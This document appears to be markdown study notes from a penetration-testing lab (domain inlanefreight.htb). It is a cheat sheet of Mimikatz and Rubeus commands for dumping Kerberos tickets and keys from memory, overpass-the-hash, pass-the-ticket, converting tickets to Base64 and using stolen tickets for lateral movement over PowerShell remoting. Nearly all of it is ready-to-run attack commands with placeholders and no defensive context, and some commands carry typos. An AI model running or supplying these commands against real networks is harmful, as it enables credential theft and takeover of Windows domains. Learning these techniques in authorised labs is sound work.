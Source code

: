 ### Mimikatz - Export Tickets
```cmmimikatz.exe
privilege::debug
sekurlsa::tickets /export

# Once done
dir *.kirbi
```

### Rubeus - Export Tickets
```cmd
Rubeus.exe dump /nowrap
```

### Pass the Key/OverPass the Hash
- Mimikatz - Extract Kerberos Keys
```cmd
sekurlsa::ekeys
```
- Mimikatz - Pass the Key/OverPass the Hash
```cmd
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:$DOMAIN /user:$USERNAME /ntlm:$HASH
```
- Rubeus - Pass the Key or OverPass the Hash
```cmd
Rubeus.exe asktgt /domain:$DOMAIN /user:$USERNAME /ae256:$HASH /nowrap
```

### Pass the ticket
- Rubeus
```cmd
# Export ticket
Rubeus.exe asktgt /domain:$DOMAIN /user:$USERNAME /rc4:$HASH /ptt
# Pass the ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
- Convert .kirbi to Base64 Format
```PowerShell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
- Pass the Ticket - Base64 Format
```bash
Rubeus.exe ptt /ticket:$STRING
```
- Mimikatz
```bash
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

---------
# Pass the ticket with PowerShell Remoting
---------------------
### Mimikattz - PowerShell Remoting with Pass the Ticket for Lateral Movement
```cmd
mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

### Rubeus - PowerShell Remoting with Pass the Ticket
- Create a sacrificial Process/logon session with Rubeus.
- This process is hidden by default. The flag /show is used to display the process
- This prevents aresure of existing TGTs for the current logon session
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
- Rubeus - Pass the Ticket for Lateral Movement
```cmd
Rubeus.exe asktgt /user:$USERNAME /domain:$DOMAIN /aes256:$HASH /ptt
```